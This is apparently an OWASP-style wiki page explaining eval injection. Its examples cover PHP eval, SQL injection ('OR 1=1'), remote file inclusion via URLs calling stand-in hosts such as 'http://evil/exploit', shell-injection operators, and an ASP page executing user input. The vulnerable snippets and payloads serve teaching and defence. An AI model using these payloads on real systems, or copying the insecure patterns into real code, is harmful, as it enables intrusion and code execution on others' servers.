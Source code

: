 ```yaml
---
layout: col-sidebar
title: Direct Dynamic Code Evaluation - Eval Injection
author:
contributors:
permalink: /attacks/Direct_Dynamic_Code_Evaluation_Eval Injection
tags: attack, direct dynamic code evaluation, eval injection
auto-migrated: 1
---
```


{% include writers.html %}

## Description

This attack consists of a script that does not properly validate user inputs in the page parameter. A remote user can supply a specially crafted URL to pass arbitrary code to an eval() statement, which results in code execution.

Note 1: This attack will execute the code with the same permission like the target web service, including operation system commands.

Note 2: Eval injection is prevalent in handler/dispatch procedures that might want to invoke a large number of functions, or set a large number of variables.

Risk Factors
TBD

Examples
Example 1
In this example an attacker can control all or part of an input string that is fed into an eval() function call

$myvar = "varname";
$x = $\_GET['arg'];
eval("\$myvar = \$x;");
The argument of "eval" will be processed as PHP, so additional commands can be appended. For example, if "arg" is set to "10 ; system(\"/bin/echo uh-oh\");", additional code is run which executes a program on the server, in this case "/bin/echo".

Example 2
The following is an example of SQL Injection. Consider a web page which has two fields to allow users to enter a Username and a Password. The code behind the page will generate a SQL query to check the Password against the list of Usernames:

SELECT UserList.Username
FROM UserList
WHERE
UserList.Username = 'Username'
AND UserList.Password = 'Password'
If this query returns exactly one row, then access is granted. However, if a malicious user enters a valid Username and injects some valid code ("' OR 1=1") in the Password field, then the resulting query will look like this:

SELECT UserList.Username
FROM UserList
WHERE
UserList.Username = 'Username'
AND UserList.Password = 'Password' OR '1'='1'
In the example above, "Password" is assumed to be blank or some innocuous string. "1=1" will always be true and many rows will be returned, thereby allowing access. The final inverted comma will be ignored by the SQL parser. The technique may be refined to allow multiple statements to run, or even to load up and run external programs.

Example 3
This is an example of a file that was injected. Consider this PHP program (which includes a file specified by request):

<?php
   $color = 'blue';
   if ( isset( $_GET['COLOR'] ) )
      $color = $_GET['COLOR'];
   require( $color . '.php' );
?>
<form>
   <select name="COLOR">
      <option value="red">red</option>
      <option value="blue">blue</option>
   </select>
   <input type="submit">
</form>

The developer thought this would ensure that only blue.php and red.php could be loaded. But as anyone can easily insert arbitrary values in COLOR, it is possible to inject code from files:

/vulnerable.php?COLOR=http://evil/exploit - injects a remotely hosted file containing an exploit.
/vulnerable.php?COLOR=C:\ftp\upload\exploit - injects an uploaded file containing an exploit.
/vulnerable.php?COLOR=..\..\..\..\ftp\upload\exploit - injects an uploaded file containing an exploit, using Path Traversal.
/vulnerable.php?COLOR=C:\notes.txt%00 - example using Null character, Meta character to remove the .php suffix, allowing access to other files than .php. (PHP setting "magic_quotes_gpc = On", which is default, would stop this attack)
Example 4
A simple URL which demonstrates a way to do this attack:

http://some-page/any-dir/index.php?page=<?include($s);?>&s=http://malicious-page/cmd.txt?
Example 5
Shell Injection applies to most systems which allow software to programmatically execute a Command line. Typical sources of Shell Injection are calls system(), StartProcess(), java.lang.Runtime.exec() and similar APIs.

Consider the following short PHP program, which runs an external program called funnytext to replace a word the user sent with some other word.

<HTML>
<?php
passthru ( " /home/user/phpguru/funnytext "
           . $_GET['USER_INPUT'] );
?>
This program can be injected in multiple ways:

`command` will execute command.
$(command) will execute command.
; command will execute command, and output result of command.
| command will execute command, and output result of command.
&& command will execute command, and output result of command.
|| command will execute command, and output result of command.

> /home/user/phpguru/.bashrc will overwrite file .bashrc.
> < /home/user/phpguru/.bashrc will send file .bashrc as input to funnytext.
> PHP offers escapeshellarg() and escapeshellcmd() to perform encoding before calling methods. However, it is not recommended to trust these methods to be secure - also validate/sanitize input.

Example 6
The following code is vulnerable to eval() injection, because it don’t sanitize the user’s input (in this case: “username”). The program just saves this input in a txt file, and then the server will execute this file without any validation. In this case the user is able to insert a command instead of a username.

Example:

<%
If not isEmpty(Request( "username" ) ) Then
Const ForReading = 1, ForWriting = 2, ForAppending = 8
Dim fso, f
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.OpenTextFile(Server.MapPath( "userlog.txt" ), ForAppending, True)
f.Write Request("username") & vbCrLf
f.close
Set f = nothing
Set fso = Nothing
%>
<h1>List of logged users:</h1>
<pre>
<%
Server.Execute( "userlog.txt" )
%>
</pre>
<%
Else
%>
<form>
<input name="username" /><input type="submit" name="submit" />
</form>
<%
End If
%>
Related Threat Agents
Internal software developer
Related Attacks
Direct Static Code Injection
Code Injection
Injection Attacks
Related Vulnerabilities
Category:Input Validation Vulnerability
Related Controls
Category:Input Validation
References
http://secunia.com/cve_reference/CVE-2006-2005/?show_result=1
http://en.wikipedia.org/wiki/Code_injection

